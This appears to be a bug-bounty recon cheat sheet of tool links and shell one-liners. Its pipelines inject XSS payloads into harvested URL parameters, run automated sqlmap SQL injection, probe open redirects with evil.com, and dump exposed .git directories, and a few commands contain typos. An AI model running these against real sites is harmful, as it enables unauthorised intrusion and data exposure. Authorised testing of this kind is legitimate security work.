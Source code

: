 # Parameter/Content/URL Discovery

- ParamSpider
- gf
- Parht
- kxss
- gxss
  
- httpx
- aquatone
- SecretFinder

- gau
- hakrawler
- wfuzz
- ffuf
- dirsearch

``` $ cat domains.txt | httpx -status | gau ```

``` $ cat domains.txt | httpx -status -ports 80,443,8080 -path /admin ``` 

``` $ subfinder -d domain.com -silent | aquatone ``` 

``` $ cat targets | ./feroxbuster --stdin --silent -s 200 301 302 --redirects -x js | fff -s 200 -o js-files ```

``` $ arjun -u url ```

https://github.com/s0md3v/Arjun

``` $ echo domain | waybackurls | unfurl paths ```

``` $ echo domain | waybackurls | unfurl keys ```

``` $ echo domains | waybackurls | gf xss | hakcheckurl ```

``` $ echo domains | subfinder -silent | httpx -silent | katana -silent -d 10 | unfurl keys | uro ```

https://github.com/projectdiscovery/katana

https://github.com/tomnomnom/unfurl


#### _xargs_ (carrega lista para uma tool)
 
 https://linuxhandbook.com/xargs-command/

 ``` $ xargs -a lista -I@ sh -c 'python3 paramspider.py -d "@"' ```

``` $ python3 paramspider.py -d | kxss ```

``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?FUZZ=test ```

``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?search=FUZZ ```

# OneLiners

## Subdomain enum

#### _Subdomain enum with JLDC_

 https://github.com/brunosergi0/curlmeallsubdomains
 https://github.com/Fadavvi/Sub-Drill/blob/master/Sub-Drill.sh

 ``` $ curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?((\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew file" ```

## XSS

#### _xss with freq_

 https://github.com/takshal/freq

 ``` $ echo domain.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror-alert(1);>' | freq | grep -v 'Not' ```

#### _XSS with gau_

 https://github.com/s0md3v/uro

 ``` $ echo domain.com | gau | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" | grep -v 'Not' ```
 
 ``` $ echo domain.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" ```

 #### _find xss with hakrawler_

 https://github.com/hakluke/hakrawler

 ``` $ echo domain.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep -v 'Not' ``` 


 #### xss automation

``` $ echo domains-with-params | gxss -p test | dalfox pipe --mining-dict-word arjun/params.txt --skip-bav -o file.txt ```

``` $ echo domains | waybackurls | uro | gf xss | dalfox pipe --skip-bav ```

https://github.com/hahwul/dalfox

https://github.com/RenwaX23/XSSTRON


## SQLi

#### _SQLi_

 https://github.com/Findomain/Findomain

 ``` $ findomain -t domain.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1 ```

 ``` $ echo domains | httpx -silent | anew | waybackurls | gf sqli >> sqli.txt ; sqlmap -m sqli.txt --batch --random-agent --level 1 ```

## OpenRedirect

 #### _Open Redirect_

 https://github.com/tomnomnom/qsreplace
 
 ``` $ waybackurls domain.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done ```

## Git

#### _cs.github_
 
 https://github.blog/2021-12-08-improving-github-code-search/

#### Git dorker

https://github.com/obheda12/GitDorker



#### _git exposed_

 ``` $ echo domain.com | subfinder -silent | httpx -silent | anew file ```
 
 ``` $ echo domain.com | subfinder -silent | xargs -I@ sh -c 'goop @ -f' ```

 https://github.com/arthaud/git-dumper
 
 https://github.com/nyancrimew/goop

## PortScan

#### _port scan_

 https://github.com/j3ssie/sdlookup
 
 ``` $ echo domain.com | subfinder -silent | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```
 
 
 ``` $ echo doamin.com | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```

## Enum javascript

 ``` $ echo tesla.com | gau | subjs ```
 
 ``` $ echo tesla.com | gau | grep -iE '\.js' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 -content-type | grep 'application/json' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 | anew ```

 ``` $ echo domains | waybakcurls| getJS ```


#### send notifications to multiple places 

https://github.com/projectdiscovery/notify

https://crontab-generator.org/

# Automation 

- https://github.com/KingOfBugbounty/DockerHunt

- https://hub.docker.com/r/mswell/hacktools

``` $ echo domains | gau | hakcheckurl | grep -v '404|999|403|500' ```

## DNS

- A -> ipv4
- AAAA -> ipv6
- CNAME -> domains
- TXT -> notes/text
- MX -> email servers
- SOA -> domains validations
- NS -> authority servers

### dig 

- https://www.cyberciti.biz/faq/linux-unix-dig-command-examples-usage-syntax/
- https://www.thegeekstuff.com/2012/02/dig-command-examples/
- https://www.hostinger.com/tutorials/how-to-use-the-dig-command-in-linux/
